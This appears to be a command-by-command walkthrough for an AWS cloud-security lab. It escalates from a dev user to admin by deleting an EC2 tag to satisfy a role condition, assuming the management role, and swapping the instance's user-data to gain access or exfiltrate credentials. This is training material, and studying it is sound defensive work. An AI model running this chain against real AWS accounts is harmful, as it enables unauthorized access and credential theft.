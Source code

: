 ### Enumerate the user and roles we have access to from the start cg_dev_user
```
# Gather all roles and users permissions
iamactionhunter --collect --profile cg_dev_user

# Check for Write actions that the dev_user has
iamactionhunter --config write_actions --account <account_id> --user cg_dev_user

# Check if the dev_user has any interesting IAM permissions
iamactionhunter --config dangerous_iam --account <account_id> --user cg_dev_user

# See what write permissions the role you can assume has
iamactionhunter --config write_actions --account <account_id> --role cg_ec2_management_role

# Check back on the dev_user see if you can do anything with tags
iamactionhunter --query 'ec2:*tag*' --account <account_id> --user cg_dev_user

# Note you can delete tags allowing you to satisfy the condition set for the ec2_management_role
```

### Use the dev_user to enumerate ec2 instances
```
# Get instances that have the tag referenced in the condition
aws ec2 describe-instances --region us-west-2 --profile cg_dev_user --filter "Name=tag:Name,Values=cg_admin_ec2" 
```



### Delete the tag using the dev_user on the EC2 to satisfy the condition for the cg_ec2_management_role
```
aws ec2 delete-tags --region us-west-2 --profile cg_dev_user --resources <instance_id> --tags Key=Name
```

### Assume the cg_ec2_management_role
```
aws sts assume-role --role-arn arn:aws:iam::<account_id>:role/cg_ec2_management_role --role-session-name blah --profile cg_dev_user
```

### Use the cg_ec2_management_role to stop the instance
```
aws ec2 stop-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Use the cg_ec2_management_role to modify the userdata to access the EC2 or exfiltrate credentials from it ([https://hackingthe.cloud/aws/exploitation/local-priv-esc-mod-instance-att/](https://hackingthe.cloud/aws/exploitation/local_ec2_priv_esc_through_user_data/))
```
aws ec2 modify-instance-attribute --region us-west-2 --profile cg_ec2_management_role --instance-id <instance_id> --user-data file://userdata.txt
```

### Use the cg_ec2_management_role to start the instance
```
aws ec2 start-instances --region us-west-2 --profile cg_ec2_management_role --instance-ids <instance_id>
```

### Access the EC2 or exfiltrate credentials and gain admin privileges
